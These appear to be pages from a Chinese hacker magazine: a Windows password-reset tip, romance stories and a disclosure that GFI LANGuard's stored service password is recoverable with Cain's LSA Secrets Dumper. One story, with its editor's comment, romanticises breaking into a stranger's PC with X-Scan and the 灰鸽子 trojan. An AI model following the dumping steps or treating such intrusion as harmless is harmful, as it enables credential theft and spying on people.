图 2 禁止访问计算机管理
图 3 从 MMC 中进入本地用户和组

- 1、我的单机，不会受木马控制；
- 2、我从来不把密码说给别人听；
- 3、昨天还好好的，今天我打了一天的神雕侠侣基本上没有离开过我的机子，因为那时玩得有点疯，只去了一趟 WC，就算宿舍的人从网上下载了什么破解密码的工具像 findpass 也不可以用 U 盘搞进去也不可能这么快，因为我的 USB 接口是在机箱后面。

这时看到了我的舍友在暗笑（^o^），可能我那呆呆的样子有点搞笑吧。他说你会不会把密码给打错了，我想一定是那小子搞的鬼。我就将计就计假装说要向他借张启动盘重装系统。可能那小子良心发现了，不敢把玩笑玩得过火了。他说试一试我的这个密码……后来他告诉了我他都做了什么：以系统管理员的身份登录，在“我的电脑”上右键，选择“管理”—“本地用户和组”—“用户”，这时可以在右侧的窗口看到系统当前的用户列表，选中要更改密码的用户，右击选“设置密码”，如图 1 所示。

然后设置你的新密码，你看是不是不用旧密码。我在网上找了几天都没有找到好的解决方案。后来再用“超级兔子”发现可以用其中的魔法设置—系统—系统选项—禁止我的电脑右键菜单中的管理项目可能解决问题，效果如图 2。

这个只是治标不治本的方法，因为可以从另外几处地方打开“本地用户和组”，比如从“运行——MMC——本地用户和组”，如图 3。

经过一番的寻找，在 %systemroot%\system32 中找到了有关的程序 compmgmt.msc、lusrmgr.msc、mmc.exe，其中 MMC 是主角，一时心血来潮我把 mmc.exe 改了扩展名改成了 mmc.hk 竟然成功了，结果没有一个地方能打开“本地用户和组”，连 gpedit.msc 等和 MMC 相关的程序都打不开了。而如果你要用 MMC 的话把 mmc.hk 改回“mmc.exe”就可运行了。这就是治本的方法。

以上实验的都是在 Windows 2000 Professional 中测试成功，没有在 WinXP/2003 测试过。如果本文中有什么不对的地方，欢迎各位朋友多多批评和交流。俺的邮箱是：adg@126.com.cn。

> 编辑点评：作者的那个朋友很细心呀，呵呵！Windows 的这个密码更改不用输入旧密码小编一直没有注意过，而事实却是这样令人吃惊，也许微软的意思是一个用户只能一个人来登录并且一个系统中只能有一个管理员吧！小编在 Windows XP Professional 中实验同样不用输入旧密码，其实这也没有什么，可以用系统权限很好地弥补这个“过失”，不过对于文章中的作者这样的一台电脑，多人共享并且用同一个用户登录的情况，“呵呵”，确实要注意了！

又到了阳春三月，在家里过一个快乐的春节之后，大家有何新的打算呢？小编我可是非常期待在周末的时候去北京郊外放风筝呢，虽然北京的气候没有南方那么暖和，但风力却是一点不让人沮丧。只要不碰上沙尘暴，度过一个开心的周末也不难（不过记着一定要准备一只强壮的风筝啊）。经常在计算机前趴着的各位朋友记得要出去走走，一日之际在于晨，一年之际在于春。况且三月三号还是南方黎族青年男女定情的日子，说不定我们就会在这天遇见自己的“幸福”呢！本月喃喃，没有悲伤，只有希望！

## 幸福

安安

“安安，你听我说……”
“安安，你要乖点……”
“安安，你别闹了……”
“安安，你说话呀……”

我耳边似乎还回荡着小夏的声音，想起他温暖的手，想起他无奈的蹙眉，想起他……
[我们不是约好不再想他吗？]
“可是我好想他……”
[你怎么可以这么没志气呢？]
“我……”

我有轻微的自闭症，安娜教我这么跟自己对话，她说：“安安，你是个美丽的女孩子，你要相信自己，你可以拥有幸福……”
安娜是我的心理辅导师，是我的精神支柱，安娜也是我唯一的好朋友。
不断氤氲起的水雾迷蒙了视线，我的眼泪随着水雾滚滚而落：

“小夏……”
小夏喜欢抱着我，坐在宽大的椅子上，下巴顶在我的肩上，看着我的手指如飞舞的蝴蝶在键盘上忙碌着，小夏说很喜欢这个时候的我，美丽的如同一只独自起舞的彩蝶……

小夏，那个说爱我的小夏，那个伤我的小夏，那份温柔似水的柔情，却也伤我至深……我嘴角扯出一丝苦笑，抬起头，看着咖啡屋里忙碌的服务生和悠哉游哉的客人们。

我怕见人，但是见不到人的时候却又不安，所以，在想要逃避而又不能够没有人的时候，我就会找个安静却四周有众人的角落窝起来，像一只胆小的兔子，警惕地看着角落以外穿梭的人流，这个时候，我告诉自己，我还不是只有一人……

“安安，要接电话哦，一定要接哦……”安娜为我特别录的手机铃声突然地响起，正缩在角落里的我，犹如看着毒蛇猛兽一般，惊恐地瞪着被放在桌上的手提袋，这也是安娜为我买的。她很疼我，是我认为唯一不会伤害我的人，可另一个我曾经认为不会伤害我的人已经伤害了我，我该相信安娜不会像小夏一样吗？

[我们不怕啊，接个电话没什么的，是吗？]
“可是我怕……我好怕……”
[没什么可怕的，这是安娜打来的，相信她，我们一直都很信任她的不是吗？]
“我，我可以吗？”
[可以的，我们可以的！]

抬头怯怯地看着四周投射来的诧异目光，我颤抖着，努力打开手提袋，拿出仍旧轻声细语的手机。

“安安，你怎么了？这么久不接电话？”安娜的声音温柔地从电话那端流进我的心里，抚平我不安的情绪。
我努力地镇定下来：“安，安娜……我……我……”
“乖，别紧张，吸口气慢慢吐出来，告诉我你在哪里？”安娜仍旧是那么温柔，我突然放下心来，我不是一个人，我还有安娜……

咖啡杯里温热的水汽弥漫起来，模糊了我的视线，我仿佛又看到了当年小夏走向我的那一瞬间。
小夏是个网络工作者，喜欢编程，然而他最喜欢的事情就是帮我找东西，在我的电脑里，而我是个老忘东忘西的业余码字者。
我管我自己叫码字者，因为我觉得我还不够资格被称为作家甚或是个写手，而小夏却喜欢这样喊我：“我的小作家吆——”
他喜欢后边加个吆，拉长的嗓音，他说他喜欢看我羞怯瞪他的那一瞬间。

相识，是在那个夜晚……
“你，你是谁？”我瞪着突然跳到眼前的视频窗口，我根本就没打开视频啊，我根本就不认识眼前的男子，害怕地想躲起来……
“我先自我介绍，我叫小夏……”视频窗口中那张洋溢着自信的笑脸吸引了我的视线，我不自觉地听着他一个人说了两个小时的话，直到他说：“夜深了，早点睡觉，睡晚了对身体不好……”我才突然惊醒。

我是怎么了？我怎么会对一个陌生人如此不设防，这不是我。“好！”可是我却惊讶地发现，这句软软的回答是吐自我的口中。
“安安，你要乖点哦，明天晚上我再找你，嗯？”小夏——他的名字，有着让我不禁想亲近的感觉，他看着我乖乖的点点头，才在一声晚安中关闭了视频。然后我的电脑似乎有着自主意识，自动关闭了系统。天哪，是我遇见了神仙吗？还是看到了天使？我惊异不已，却又暗自欢欣。小夏是我这二十三年来第一个想要亲近的陌生人。

“我去找你好吗？”小夏心疼地看着捧着一块冷比萨的我。他说我不会照顾自己，确实，我不会照顾自己，因为……
“不、不了……”我低下头，我怕，我怕他看到我，我怕……
“安安，你要听话哦，乖乖听话，小夏给你做好吃的。”屏幕上，小夏笑的一脸温暖，让我安心的温暖，我缓缓地点点头，安娜说我真该多跟人接触了。

小夏就这样，带着一阵夏天的风，走进了我的生活。
我还记得那天，那幕镜头，他湿着双眼，轻轻地把我从轮椅上抱起来，紧紧地拥进怀中，他说我是第一个让他感觉心疼的女子。是的，轮椅，我是个依靠轮椅生活的女子，所以我怕，所以我怕与人亲近，也怕无人可亲近。我紧紧抱着小夏的肩膀，透过他宽厚的肩膀看着站在不远处的安娜，看着她唇边那抹欣慰的笑意。

日子，过得很快，我很快乐，在小夏的臂弯里，我很安心。
然而，不知何时我开始不安，我感觉到小夏的晚归，小夏的酒味，小夏衣服上有陌生的香水味，还有小夏的眼神……那种痛苦地望着远方的眼神……
不用说，不用想，不用去证实……我和妈妈一样，走上了这么一条布满痛苦荆棘的路，我们的爱人都背叛了我们……

“安安，怎么了，你怎么在这里？”安娜喘着气，自远处匆匆而来，带着一股冷冷的风。
“安娜，我好冷！”我轻语，然后笑着晕在她的怀中，在她的怀中，我可以放心地闭上眼睛休息，除了她，我不再相信别人，不再！

“安安……”温柔的声音，除了小夏，没有别人这么叫我，可是，我不知道，该不该面对现实。
[不要怕，该来的总会来的，我们不是说要学会坚强吗？]
“不，我怕，我真的好怕，好怕……”
[乖，难道你忘记你说过的，离开了小夏也要一样过日子的吗？]
“别说了，别说了，我怕啊……”

我痛苦地拧起眉头，坚决不愿意张开眼睛，我怕……像失去爸爸那样失去小夏……
“安安，怎么了？你怎么了呀，安安，别吓我啊，安安……”
好吵，为什么连睡觉都不让我安静呢？为什么？

缓缓睁开眼，满眼是诡异的白色，包括身边的小夏那张苍白的脸，白色……
“安安，别吓我啊，说话啊，说句话啊，安安，你这样很难受的对不对？乖？说句话好吗？小夏给你煮了好多好吃的，乖点呀安安！”小夏用他的脸，带着胡茬的脸，磨蹭着我的手，透过他的身影，我看到门边那一抹蓝色的身影……“他怎么可以，怎么可以这样残忍，他居然把那个女人，那个女人带到我的眼前……”

[乖，我们要先问清楚啊，问清楚她是谁啊！]
“我不要，我不要！我不要！”
[妈妈以前不是教过我们吗？要学会宽容，要学会理解……]
“不——就是因为这样，我才失去爸爸，失去双腿，我不要，我不要别人再来伤害我，不要——”

“你走，离开这里，我，我不要见到你。”我终于抽回了手，淡漠地望着窗外，轻轻地说出这句话。原本在盛汤的手顿住了，不可思议的沉默弥漫在病房里，安娜不赞同地拧起了好看的眉尖，那抹蓝色的人影也跟着停顿，仿佛空间就此凝结。

“安安……”小夏蠕动着嘴，却吐不出别的字，只是这么看着我，看着我突如其来的冰冷，看着我突然竖起的防护网，看着我默然地望着窗外的眸子，看着我……眼睛里那一点一滴的心疼让他在他的目光中急于逃避。

“你走，你滚，你走啊，我不要看到你，安娜，带我离开这里，我要离开这里……”
我疯了一般拍打着床，泪水涌出眼眶，我要赶小夏走，我不要他这样看着我，我不要他那种怜悯般的心疼，是我耽误了他，一定是的，他的痛苦一定是这么来的，他一定是爱上了另一个美丽如蝴蝶的女子，是那女子比我正常，可以真的如蝶一般舞给你看，而我……也许永远只能让他带着遗憾的目光远远地望着……

心痛，如刀绞，看着那抹蓝色的身影如一朵解语花一样依偎着小夏，那一瞬间，我可以清晰地感觉到心在滴血，一滴，一滴……

“你疯什么啊，如果不是为了你，如果不是为了能够让你站立起来，哥哥他能……”泪眼朦胧中，一抹蓝色的身影闪到我的床前，厉声指责着我。
“姗姗——”小夏一把拽过那抹蓝色。
“让我说完，哥哥，你这么宠着她，可是她却这么对待你，哥哥，你何苦啊！”“蓝色身影”委屈地哭着：“枉你还拼命工作，拼命赚钱，想要带她去美国做手术……”

“哥哥？！”我迷惑地抬起头来，噙在眼中的泪水再也无法控制，肆无忌惮地溢满了我的脸庞，哥哥？那她不是……
可是那夜归，那香水，那徘徊在他脸上的痛苦，我都看在眼中啊！闭上眼，我慌乱无主，不知道该怎么办……

[相信他，我们不是一直都很相信他的吗？]
“我不敢，妈妈就是一次次相信了爸爸，最终失去了一切，包括生命……”
[他和他爸爸不一样呀，他对我们的好，真的和爸爸不一样呀！]
“可是我还是害怕……”
[勇敢点，安安，我们不是早就下定决心走出自闭牢笼的吗？]
“我，真的可以，真的可以吗？”
[为什么不可以呢？很简单的呀，相信他，相信他就等于又一次成功地迈出了你的步伐，给他一次机会，也给你一次机会。好吗？]
“我不会，不会受到伤害吗？”
[你觉得小夏会让你受到伤害吗？]
“我，我不知道……”
[安安，我们不能，不能因为不知道，因为害怕，而去伤害他们，伤害那些用真心对待我们的人。]
“我……”

“安安，我知道你不开心，安娜会留在这里陪你，我回去给你煮点东西。”小夏微带叹息地摸摸我的头，转身要走。
我抬起头，迷蒙着眼睛：“小夏，那……香水是谁的……”
听到我的声音，小夏惊喜地回头，“香水？！”他用询问的眼神看着安娜，看看“蓝色身影”。
“你、你那件衬衣，铁灰色衬衣上有……很香……很重的女人味……”我要说，我好不容易才可以走出这一步，没有治好我的心病，我无法做出抉择，我无法再次相信小夏，虽然我心底真的很依赖他。

“咯咯……”“蓝色身影”笑得很响，伸出手拍着小夏：“老哥，看来未来的嫂子对你很不放心呢，老老实实交代吧。”
“我，我哪有啊！嗨！”小夏焦急地向我辩白却又不知怎么辩白，抱着脑袋蹲坐在椅子上。

“那，那天晚上，你依旧是 12 点多才回来……我，我等你，等得差点睡着了……你以为我睡着了……抱我，抱我回房间，我闻到的……很香很香的香水味……”我终于结巴地把话说了出来，我静静地看着他，等待着他的回答，我悲哀地发现，即使他会告诉我那是逢场作戏，我也会原谅他。

“那啊，哈哈，安安呀，你好可爱呀，真的好可爱！我爱死你了，你怎么就闻到这个味道了呢？”小夏的反应出乎我意料，他笑得很开心，真的是很开心，而我的眼泪却委屈地拼命往下掉，小夏，难道你连找个理由，找个谎言来骗我一下都不肯吗？“你这个小傻瓜，算了，还是提前拿出来吧！”小夏点着我的鼻子，然后抓过大衣，变魔术一般拿出一只紫色的盒子。

我诧异地看着他，而他却用饱含着惬意的眼神示意我打开看看。
我缓缓地打开包装，里边是一抹媚惑的紫，一抹勾人心魂的紫——“紫色恋人”。
“这……”我诧异地看着拿起那瓶紫色的小夏，看着他那媚惑的紫涂抹在我的双腕，涂抹在我的耳后，涂抹在我的颈侧。
“安安不是曾经说自己的愿望就是得到一瓶紫色恋人，然后涂抹上它来诱惑我的吗？我是主动提供机会呀！”小夏笑得释然，轻轻地脱离我的脖颈，深深地吸气，沉迷的说：“好香呵……安安嫁给我好吗？”

好香啊，是好香啊……小夏也好香呢……
原来我不曾失去他！原来我还可以继续放心地去爱着小夏！我还可以拥有我的幸福，拥有，我的小夏……
“好哇哥哥，我让你帮我买绝代粉姬你不给买，原来留着钱疼老婆啊！”“蓝色身影”——哦不，应该是叫夏姗姗，我未来的小姑子，俏皮地跳起来揉乱小夏的一头顺发抗议着。

房间里一阵混战开始了，而我含着泪笑着伸出了手：“安娜——不，姐姐，我要嫁人了呢！”
“是啊，我的妹妹要嫁人了呢！”安娜揶揄着抱住了我。
安娜，我的姐姐，同父异母的亲姐姐，继母之后守护我长达十年之久的我最信任的姐姐……而那边眉头舒开了的，是我的小夏，是要继姐姐之后守护我直至终老的丈夫……
我好幸福的，不是吗？

> **编辑点评：** 一个性格细腻而又有些自闭的女孩，和自己心爱的男孩产生误解之后最终还是得到了真爱。被丘比特的箭射中之后，注定会受伤吧，只是我们常常因为刚开始的幸福而忘记过疼痛，一不小心，它便发作。不过，在伤愈之后发现恋人那关切的目光，你还会后悔吗？

## 中毒

笨笨心情女人

一直以为网恋是比较极端的，要么恐龙，要么绝色美女。像我这种平凡到掉渣的女子，是绝不可能跟网恋扯上任何关系的。

认识他实属偶然，将近一年的网上生活，早就把自己折磨得人鬼不分，禁锢了情感与朋友。只会待在文学站点上静静地写自己的心情，不管文字后面的关心和热闹，习惯在黑夜对着显示屏幽蓝的光在键盘上敲击无奈，QQ 消息需要验证，却拒绝加任何好友。

那个深夜，一次又一次 QQ 消息的响声把我逼到快崩溃的边缘，消息始终来自同一个人：我会给你一个完全安静的平台，那里面只有你的寂寞。这个人的固执和耐心让我抓狂，我通过验证，却是把他拉到陌生人组，未等他说话就开始警告：无聊男子，我不是你深夜无聊寻欢的对象，请你，马上离开我的视线！不久，那边 QQ 弹出的全部是网站地址，而且是我发在一个文学站点所有的文字。这种结果是我没有想到的，我只有生硬地在对话框敲上“谢谢”。许久，那边传来消息，大篇幅的文字，说看了我的文字心会有些隐隐的痛，曾经相似的情节，张扬的青春，作践的自己，历史的重复，注定和宿命只在恍惚间，转瞬消失不见，末了，最后附带了一个网址。他的 QQ 就此下线。

我打开网址，是一个论坛，点开管理员的资料：浪子，年龄：28，个性留言：总习惯在最后转身，把孤独和惆怅用隐忍的笑自己收藏。我注册再登录，竟然发现我已经是情感驿站版块的版主，系统消息是管理员发来的：看着你把我列入陌生人组，也看着你登录我的论坛，以后，情感这块就是你的私有地，你想种植什么就种植什么。我整个人开始傻掉，他可以看见我的电脑？也知道我在做什么？这人想怎么样？为什么会有这么恐怖的人？我怎么会一点也不知道。天啊，我有想哭的冲动，这人实在太可怕了，天知道我每晚在电脑上做了些什么，每次写过的东西都只会当作遗忘，写过就不记得，而这个人，竟然可以看到我的所有，我却是实实在在的电脑白痴，除了用电脑写文字看网页之外什么都不会。我开始感觉恐惧，脑海里闪现一个词：黑客？

我急忙在系统消息回复：你怎么会看见我的电脑，你还看到了什么，你是黑客么，你这么做是为什么？系统很快回话：夜深了，你该休息了，不要每天晚上 7 点上网，早上 7 点关机，对女孩子皮肤不好。我先下了，有问题明天说。这什么人啊，整个答非所问，我所有的情绪都随着他短短的几句话而消失无踪。快快地关了电脑，拿本书却怎样也看不进去，想着我这电脑怕是中毒了，明儿得找人重装下系统……

第二天，请来了懂电脑的朋友，他打开电脑说，里面所有的东西都没动，不需要重装，只是有人进来过，装个防火墙和杀毒软件就好，装过防火墙一般的人根本没办法进来。我呆呆地望着朋友把一大堆我看不懂的东西下载入电脑，完后，他说防火墙和杀毒软件安装好，电脑会自动重启。一切就 NO PROBLEM 了，若进入电脑的人是个厉害角色，那他也没办法，因为他也只懂得那么多，而那人如能突破防火墙进我电脑的话，很明显就是高手了。走时想起什么似的又加了些密码进去。想想如此，应该可以高枕无忧了吧。

说实话我倒有点期待了，那个叫浪子的人还能进我的电脑吗？晚上 8 点到凌晨 2 点这段时间一直把 QQ 陌生人组拉开，也一直开着论坛。可他一直没上线，却在论坛系统消息给我留了言：卡巴斯基用来杀毒还行，多学学这方面的知识。我懵了，一直在论坛发消息给他却不见回复，百般无聊中开始浏览论坛，论坛记录了他和一个伙伴创办这论坛的目的与成长，原来这所有的东西都是他自己一个人做出来的，他的伙伴负责管理，拉到很多文笔很美的人分管着论坛的各个版块，版主自身都是有工作且文笔很好的人，他们做这论坛只是业余，因为喜欢，因为想给家乡之外的游子另一个家，只是，这论坛发展到现在已经有差不多一半的外乡人。被这论坛的热忱所感动，更对这个叫浪子的有了些许好奇，但这个管理员的代表头像一直显示不在线的灰色。我开始在情感驿站贴文字，一直到阳光打进我的窗户。

浪子自那次系统留言后便开始失踪，而我在论坛却混得如鱼得水，很久没那么愉快的心情，阳光，温暖，和着他们的心情一起喜一起忧，而我终于在这个论坛找回了自己，原来，我才只有 22 岁，青春正年少。

同样的夜晚，打开情感驿站，里面有篇新帖是专门写给我的，直觉告诉我说是浪子，但作者却是隐藏，一点失落一点惊喜。快快关闭页面，闭上眼睛，想让自己好好休息一晚，QQ 却开始跳动，是他的留言：明天到你的城市，请你吃饭。温暖就此蔓延开来。

见到浪子，很奇怪的感觉，似曾相识，1 米 8 的个头，单单瘦瘦，身体藏在一件硕大的棉袄里面，会用手抚摩我的头叫我小家伙。一直强烈地憎恨别人用任何方式接触我的头部，但他的手掌太过温暖，让我没办法拒绝，甚至有些淡淡的欢喜。问他为什么会知道并且进入我的电脑，他笑：其实很简单，认识你只是因为在一个无聊的晚上，我的朋友把你的 QQ 告诉我，说你是个很有意思的女子，我看了你的 QQ 资料，很巧合的你的资料和我论坛的一个人介绍如此类似，上面还有你的日记地址，于是在百度搜索你的名字，很容易就找到你写的文字。至于进入你的电脑，也很简单，X-Scan 扫出了几个漏洞。溢出后上传个灰鸽子。轻轻松松地看了你电脑里的所有资料。

像是做梦一样，听完浪子的叙述，坚决邀请他去我的小窝帮我看下电脑，他却说：“晚上的车，我就得走了，你的电脑里没什么贵重的东西，如果中毒的话我负责。”呆呆地望着这个只能谈得上是陌生的男人。“那你来我生活的城市做什么？就两个小时？”他深深地吸一口烟，“来看看你过得好不好，现在的你已经在正常的生活了！”。默默地陪他到车站，临上车时，他又一次抚摩我的头，“网上联系，我们一定会再见的！”

回到家，把自己扔到床上，想着自认识他后的一切，不可思议的真实存在，竟然就这样睡了过去。凌晨 5 点醒来，简单地泡了面，打开电脑全是他的留言，说他已经到了自己的城市，并且说他不喜欢承诺，男人的承诺是用来做不是用来说的。头开始疼，一直想着他话的意思，到底在暗示着什么，不可否认他的神秘与相见带给了我巨大的冲击，但有些东西却是我惧怕的，比如说网恋。

会经常在 QQ 上见到他的影子，两个人的谈话变得具体起来，围绕着论坛，生活，情感聊，他像是我肠子里的蛔虫，知道我要说什么，甚至知道我的思想。就这样习惯了他在网上陪伴的日子，他告诉我他再也没进入过我的电脑。我笑：要电脑中毒了怎么办。他说：我会负责！我又笑：如果人中毒了呢？他发个惊恐的表情：赶快打 120 呀！偶尔暧昧的话都会浅浅避开，不再深入。

好的不灵坏的灵，电脑终于在我的诅咒下中毒了，开机都没办法，在找了那个懂电脑的朋友修了两天还不怎么见效的时候，我去网吧给浪子留言：电脑真的中毒了，诺言什么时候兑现呢？他简单简单三个字：知道了！心顿时沉入死海，世上男人不可信，不管网络还是现实。

懂电脑的朋友到电脑城请了专业的技术人员帮我修好电脑，重新面对浪子的论坛已是另外一种心情，淡淡地做版主份内的事，不再掺和到别人的喜哀愁里。而浪子的 QQ 一直是灰色，再没有亮起。而我继续回到以前的生活，文字也如同浪子不再亮起的 QQ，一样始终是灰色。

这样的生活持续了一个星期，依旧是某个夜晚，依旧无聊得在各个页面之间徘徊，依旧和无聊的人聊着无谓的句子。QQ 一直在闪，不知道自己在对什么人说什么话，因为我根本就没看清楚和我聊天的是谁，QQ 又闪，按下快捷键弹出消息：你的电脑中毒，我的人也中毒，我在你的城市，现在我还可以兑现对你的承诺么？许久不能动弹，女子的矜持让我回复：有些事情并不只是承诺的人能做到，电脑的毒修得很好，相关技术人员让我很满意，况且，我是一个不需要有太高电脑技术的人。

那边回道，“我在 XX 路的 XX 网吧，请给我解释的机会，今晚会一直在这里等你！”

打开房间里所有的灯，让明亮的灯光充满了房间，也许，还想籍此填满我数日来空虚孤独的左心室和右心房，又跑去洗了个冷水脸，清醒下头脑，再坐回电脑前，想到他刚刚的最后一句留言，终究还是忍耐不住，拿件外套奔下楼，随手招了辆车到了他说那个网吧。

刚下车，就看见了那个高大的身影，带着久违的温暖向我走来。他说，一直站在网吧外面等我，他说，他相信我一定会来的，因为，他的毒只有我能解，说完，紧紧地抱住了我。似曾相识的气息再次充满了我的周围，自此，我们不用再转身，也没有惆怅和隐忍的伤。

> **编辑点评：** 你是否黑过女孩的电脑？但又绅士般的不做破坏只是帮忙？这是发生在作者身边的真实故事，我想一些读者应该会有这样的相似的经历吧，故事比较平淡，但是却让人有一种很亲切的感觉。找个黑客男朋友，感觉似乎不坏呢。

## 昨天是什么日子啊

> 别人在黑暗中寻找光明，我却在光明中寻找黑暗。 —— WHOS 语

WHOS

“又来啦？没钱可不行啊！”林风笑呵呵地道。
“去去去，你还在乎那几块网费？”说着我在专座上坐了下来。
一扭头，正好看到王渊进来，指着他对他林风道：“跟那小子要去吧，要不是我，你还不知道要赔多少……”
“行行行，别老是有事没事提那些陈年旧账，干你的活吧。”林风打断了我的话，显然这话他是听过很多的。

林风二十多岁，三年前和女朋友东筹西凑在我们这个小城里开了一家网吧。不能不佩服林风的眼光，那几年正是网吧最红火的时候，用日进斗金来形容林风当时的情况一点也不过分。

后来林风又在网吧实行会员制度，更是刺激了网吧的收入，一年多以后便扩大规模，更新机器，成为了本小城最大的网吧。

我那时经常在林风的网吧上网，我喜欢玩魔兽，他也是，水平都不相上下，几次对战之后也就熟识了。后来网吧有什么故障都是我帮他解决的，当然我也没少蹭吃蹭喝，至于上网，那自然是免费了。

一次，林风找我帮忙，说遇到大麻烦了。每隔几天收银台的全天账目就对不上，实收总是比主机记录的要少一些。虽然不是很多，但合在一起就是一笔大数目了。呵呵，一顿饭是跑不掉了。

## 首发：TOP100 强安全工具第20名

### GFI LANGuard Network Security Scanner 管理员密文泄露高危漏洞

Lenong

小天语：一年又过去了，NOHACK 在大家关注和支持下，和很多读者朋友一样逐渐成长、长大；新洞练综栏目也在大家的建议下逐渐走向成熟，小编很是感谢大家，在开学来临之际，代表新洞的作者向广大读者朋友问好，希望在新的一年里，有越来越多的读者成为我们的小作者，和大家分享成果和经验。

### 从本文中你可以学到：

- 1、N.S.S. 的漏洞分析过程
- 2、一般系统漏洞的分析方法

准确地说，这应该是 GFI 公司一些产品的共有漏洞，虽然产品的功能各不相同，但不排除是由同一个团队开发的可能，因为利用的方法都是一样。NOHACK 兄弟催得急，我就拿最初发现漏洞的 GFI LANGuard Network Security Scanner V7.0 作范本给大家介绍吧。

- 漏洞发现：Lenong
- 发现日期：2007-1-11
- 漏洞危害：★★★★★（高危！）
- 测试版本：GFI LANGuard N.S.S. 7.0 Build 20051117
- 测试环境：Windows Server 2003 + SP1
- 受影响版本：Whole Versions of GFI LANGuard Network Security Scanner

### 背景介绍

GFI LANGuard Network Security Scanner（N.S.S.）是由美国 GFI 公司安全试验室研发的一款用于局域网安全性检测和漏洞修复的扫描器，除常规扫描器的功能外，它还能检测无线接入点/链接和 USB 设备。报告基于数据库管理（支持 ACCESS 和 MSSQL），安全隐患数据库定期与 BugTraq、SANS、CVE 等资源更新……

凭借其强大的功能和低廉的价格，几乎是中小企业局域网安全审计的首选。曾在近期公布的 2006 年 TOP100 安全工具谱上排名 20。

### 漏洞描述

GFI LANGuard Network Security Scanner 未对其保存在“GFI LANGuard N.S.S. 7.0 Attendant Service”服务中的管理员密码进行加密，导致密码可被攻击者直接破译。

### 漏洞分析

在 GFI LANGuard N.S.S. 安装过程中，用户会被要求输入一个管理员账号（官方的推荐是有管理员权限的账号，可自定义，默认为当前管理员）和密码，用来启动 LANGuard N.S.S. 的“GFI LANGuard N.S.S. 7.0 Attendant Service”服务。如下图 1：


该服务的前台名字叫：


“LNSS Status Monitor”，在 LANGuard N.S.S. 成功安装后会出现在“开始/程序/启动”里，它的主要功能是执行 LANGuard N.S.S. 管理员设定的计划任务：如定时扫描、插件更新等。

在 LANGuard N.S.S. 成功安装后，输入的管理员账号和密码随“GFI LANGuard N.S.S. 7.0 Attendant Service”服务一起被保存在当前系统中，如图 2 所示：

但很显然，GFI LANGuard N.S.S. 并没有对保存在“GFI LANGuard N.S.S. 7.0 Attendant Service”服务中的管理员密码做加密处理（或加密机制不健全），也没有三方加固机制。所以，一旦 GFI LANGuard N.S.S. 安装成功，保存的管理员密码就开始面临泄露的危险了。


下面开始我们的测试。准备一个 Cain & Abel v3.0 for Windows NT/2000/XP 和一个 GFI LANGuard Network Security Scanner V7.0。没有的就百度一下，网上很多。两者的安装过程很简单，在此就不赘述了。我在 GFI LANGuard N.S.S. 安装时设定的管理员密码是“123456”。

Cain 相信大家对它也不陌生，很多朋友都是从它强大的嗅探功能开始认识它的，但 Cain 还有另一个强项，那就是破解，今天我们要用到的就是它的“Cain's LSA Secrets Dumper”功能。

Cain 和 LANGuard N.S.S. 都安装好以后，最好把系统重启一下，主要是为了验证管理员密码的正确性和 LANGuard 的相关服务是否正常。如果系统没有报错，那就一切就绪了。操作也很简单：先启动 LANGuard N.S.S.，然后打开 Cain，顺序点击 Cain 的“LSA Secrets”和“+”就算是完成破解工作了，下面是我的效果截图 3：

可以看到管理员密码（123456）在 Cain 中是用 16 进制显示的，如下图 4。


密码会不会被转换成 16 进制直接放在注册表里呢？于是我复制这组字符串到注册表里查找，但以“注册表搜索完毕”没有发现终结，呵呵。看来密文的保存应该是基于文件的，但具体是哪个文件还需要再研究。


随后我又分别在 Win2000 中文和英文环境下进行了测试，问题依旧。而且还发现保存的密码不仅在“GFI LANGuard N.S.S. 7.0 Attendant Service”服务启动后可被破解，甚至无需服务启动，即便该服务已被管理员“停止”或“禁用”，保存在服务中的密码同样可被 Cain 破解。

### 危害延伸

运行 GFI LANGuard N.S.S. 的服务器一旦出现密码泄露事件，那么这台服务器就已经处在被攻陷的边缘了。而攻击者为了扩大战果，往往会利用掌握的管理员账号进行内网和周边服务器的渗透，那么相邻的 WEB、FTP、MAIL、Database、OA 等系统都将面临被攻陷的巨大威胁。所以，密码泄露事件的危害也是巨大的，虽然没有溢出漏洞那样的直接危害，但对于一个网络或服务器的内部安全来说，无疑是个沉重的打击。据权威统计，超过 80% 以上的安全威胁来自泄密和内部人员犯罪。

此外，我还对 GFI 的其它几个产品进行了测试，发现其中的 GFI Network Server Monitor V7.0 和 GFI EndPoint Security V3.0 也存在同样问题。二者受影响的服务分别是“GFI Network Server Monitor 7.0 attendant service”和“GFI EndpointSecurity LoggerService”。测试截图 5 如下。

所以，做个大胆的推测：

凡是需要在服务中保存密码的 GFI 产品都存在这样的安全问题！

再宏观一点，在服务中保存密码的程序应该都存在这样的泄密危机！

### 解决方案（适用于受该问题影响的 GFI 产品及其它三方程序！）

- 1. 在服务管理器中将“GFI LANGuard N.S.S. 7.0 Attendant Service”的登录身份改为“本地系统账户”（经验证这一登录方式不受 Cain 破解功能的影响）。不需要计划扫描和定时升级功能的，可将“开始/程序/启动”里的“LNSS Status Monitor”项删除，同时将保存在“GFI LANGuard N.S.S. 7.0 Attendant Service”服务中的管理员密码删除，更改服务的启动方式为“手动”或“禁用”。
- 2. 将用于启动“GFI LANGuard N.S.S. 7.0 Attendant Service”服务中的账号替换为低权限账号。但有时扫描器需要以管理员权限访问目标主机，所以会在一定程度上影响扫描结果的准确性。
- 3. 厂商发布补丁，对包含在“GFI LANGuard N.S.S. 7.0 Attendant Service”服务内的管理员密码使用强加密算法进行二次封装，或修改启动该服务时的身份认证方式。

### 结束语

事后浏览 GFI 主站（http://www.gfi.com），发现这两个产品的官方版本号竟然跟我使用的一样（主版本号没有变化，就说明没有设计变动，只是部分功能优化而已）。GFI 公司于 1992 年成立，目前开放的产品达几十种，可以想象它的用户群会有多大。

因为受影响的 GFI 产品数量有待确认，鉴于漏洞的危害性，已于发稿前通知 GFI 官方进行修补，希望官方可以尽快发布补丁。

《黑客手册》为本文唯一发布媒体，谢绝转载！最后附上官方给我的回复，感兴趣的朋友可以看看，也许你会有新的收获？

（文章中涉及到的工具 Cain & Abel v3.0 正式版（2006.10.18 最新升级）和 GFI LANGuard Network Security Scanner 7.0 build 20051117 在光盘中已经收录）

> Hi Lenong,
>
> Thank you for your concern in reporting a possible vulnerability with our products.
>
> The Windows service credentials are actually stored by Windows in the registry (Local Security Authority) by Windows itself. We would use an installer API to register the services and account credentials.

**编辑点评：**
